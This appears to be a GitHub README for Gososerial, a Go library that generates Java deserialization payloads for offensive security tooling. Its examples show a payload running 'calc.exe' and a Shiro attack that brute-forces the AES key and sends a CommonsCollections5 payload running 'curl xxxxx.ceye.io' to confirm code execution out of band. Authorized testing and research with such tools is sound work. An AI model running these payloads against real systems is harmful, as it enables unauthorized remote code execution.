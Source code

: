 # Gososerial

## 介绍

- ysoserial是java反序列化安全方面著名的工具
  
- 无需java环境，无需下载ysoserial.jar文件
  
- 输入命令直接获得payload，方便编写安全工具

- 目前已支持CC1-CC7，K1-K4和CB1

## Introduce

- Ysoserial is a well-known tool for Java deserialization security

- No Java environment and no need to download ysoserial.jar file

- Enter the command to directly obtain the payload, which is convenient for writing security tools

- Support CommonsCollections1-7,K1-K4,CommonsBeanutils1 Now

## Example

CommonsCollections1 Payload

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)


List of Supported

![](https://github.com/EmYiQing/Gososerial/blob/master/img/2.png)

## Quick Start

```shell
go get github.com/EmYiQing/Gososerial
```

```go
package main

import gososerial "github.com/EmYiQing/Gososerial"

func main()  {
	payload := gososerial.GetCC1("calc.exe")
	......
	sendPayload(payload)
	......
}
```

Example

```go
func TestFindShiro(t *testing.T) {
	// Shiro Scan Code
	target := "http://shiro_ip/"
	// Brust Shiro AES Key 
	key := shiro.CheckShiroKey(target)
	if key != "" {
		log.Info("find key: %s", key)
	}
	// Use CommonsCollections5 Payload
	var payload []byte
	payload = gososerial.GetCC5("curl xxxxx.ceye.io")
	// Send Cookies Encrypted By AES
	shiro.SendPayload(key, payload, target)
	// Receive Results Using Dnslog API
	if ceye.CheckResult("your_ceye_token") {
		log.Info("find shiro!")
	}
}
```

## About

参考了xray中p师傅的代码

**ysoserial**: https://github.com/frohoff/ysoserial

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n

## 免责申明

未经授权许可使用Gososerial攻击目标是非法的。本程序应仅用于授权的安全测试与研究目的。

